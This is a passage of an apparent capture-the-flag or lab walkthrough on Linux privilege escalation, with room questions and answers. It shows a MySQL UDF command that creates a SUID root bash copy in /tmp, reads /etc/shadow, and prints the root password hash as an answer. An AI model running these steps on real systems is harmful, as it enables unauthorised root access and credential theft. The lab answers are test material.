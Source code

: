 ![image](https://user-images.githubusercontent.com/14150485/172221440-d3b92d41-c2bb-46a8-9584-9a51764dcfbb.png)

Now, we copy `/bin/bash` to `/tmp/rootbash` and set the SUID permission:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit the `mysql` shell by typing `exit` or `\q`. Running the `/tmp/rootbash` shell will grant root privileges on the machine.

```
/tmp/rootbash -p
```

![image](https://user-images.githubusercontent.com/14150485/172222490-17d98725-2456-4d71-9005-2c9aa3b83e45.png)

I strongly recommend following along the step by step instructions and researching the exploit and commands being used in parallel as part of your learning process.

<br />
	
### 2.1: Read and follow along with the above.
```
No answer needed
```

<br />
<br />

## 3. Weak File Permissions - Readable /etc/shadow
	
### 3.1: What is the root user's password hash?

<br />

Checking the contents of the `shadow` file we can apparently see the hash for `root` and `user`.

```
cat /etc/shadow
```

![image](https://user-images.githubusercontent.com/14150485/172003402-065807d6-2eaf-4937-b5b1-565797b6767a.png)

The answer is:

```
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
```

<br />

### 3.2: What hashing algorithm was used to produce the root user's password hash?

<br />

Before we proceed with the next steps, we should ideally save the hash in a file locally.
<br />
